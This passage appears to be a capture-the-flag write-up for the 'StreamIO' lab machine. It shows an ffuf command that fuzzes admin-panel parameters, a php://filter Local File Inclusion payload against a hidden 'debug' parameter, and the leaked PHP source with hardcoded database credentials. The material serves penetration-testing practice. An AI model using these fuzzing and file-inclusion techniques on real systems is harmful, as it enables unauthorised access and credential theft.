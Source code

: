 We have successfully authenticated with user `yoshihide` with the password `66boysandgirls..`  on https://streamio.htb/login.php.

https://streamio.htb/admin/
![[/assets/images/streamio9.png]]

When navigating through the pages we see a pattern emerge in the URL and specifically `?user=` , `?staff=` ,`?movie=` and `?message=` . Since the main page is using these parameters to load the sub pages it's possible that there may be additional parameters and we can try identifying them using fuff .

```sh
# fuzzing parameters
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=0ulvdblaskvmbr4gb3eodvdrsj --fs 1678
```

![[/assets/images/streamio10.png]]

## LFI
When navigating to https://streamio.htb/admin/?debug= we see a message that states this option is for developers only.

![[/assets/images/streamio11.png]]

Using a PHP wrapper we can attempt to perform Local File Inclusion to see if the site is vulnerable.

```sh
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

![[/assets/images/streamio12.png]]

base64 decoded
```php
yr<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
	header('HTTP/1.1 403 Forbidden');
	die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>Admin panel</title>
	<link rel = "icon" href="/images/icon.png" type = "image/x-icon">
	<!-- Basic -->
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge" />
	<!-- Mobile Metas -->
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
	<!-- Site Metas -->
	<meta name="keywords" content="" />
	<meta name="description" content="" />
	<meta name="author" content="" />

```